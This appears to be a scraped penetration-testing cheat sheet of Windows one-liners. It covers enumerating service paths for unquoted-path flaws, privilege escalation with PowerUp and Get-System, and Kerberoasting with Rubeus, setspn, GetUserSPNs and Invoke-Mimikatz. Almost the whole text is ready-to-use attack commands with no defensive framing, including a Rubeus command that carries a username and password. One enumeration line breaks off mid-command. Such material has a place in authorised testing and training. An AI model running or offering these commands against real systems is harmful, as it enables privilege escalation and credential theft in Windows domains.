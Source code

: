 ### Some good one-liners

# Obtain the path of the executable called by a Windows service (good for checking Unquoted Paths):
sc query state= all | findstr "SERVICE_NAME:" >> a & FOR /F "tokens=2 delims= " %i in (a) DO @echo %i >> b & FOR /F %i in (b) DO @(@echo %i & @echo --------- & @sc qc %i | findstr "BINARY_PATH_NAME" & @echo.) & del a 2>nul & del b 2>nul
</code></pre>

# Elevation of Privileges

## &nbsp;&nbsp;&nbsp;&nbsp; General 
<pre class="prettyprint linenums:"><code class="language-py"># PowerShellMafia
# Use always dev branch others are shit.
https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
powershell.exe -c "Import-Module C:\Users\Public\PowerUp.ps1; Invoke-AllChecks"
powershell.exe -c "Import-Module C:\Users\Public\Get-System.ps1; Get-System"

# Sherlock
https://github.com/rasta-mouse/Sherlock

# Unquoted paths
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v 
</code></pre>
## &nbsp;&nbsp;&nbsp;&nbsp; Kerberoast 


Simple logic for kerberoast is requesting tickets and cracking them(offline, doesn't produce any logs) 
-- For kerberos to work, times have to be within 5 minutes between attacker and victim.
<pre class="prettyprint linenums:"><code class="language-py"># Rubeus 
.\.rubeus.exe kerberoast /creduser:ecorp\morph3 /credpassword:pass1234

# List available tickets
setspn.exe -t evil.corp -q */*
powershell.exe -exec bypass -c "Import-Module .\GetUserSPNs.ps1"
cscript.exe GetUserSPNs.ps1

# List cached tickets
Invoke-Mimikatz -Command '"kerberos::list"'
powershell.exe -c "klist"
powershell.exe -c "Import-Module C:\Users\Public\Invoke-Mimikatz.ps1; Invoke-Mimikatz -Command '"kerberos::list"'"
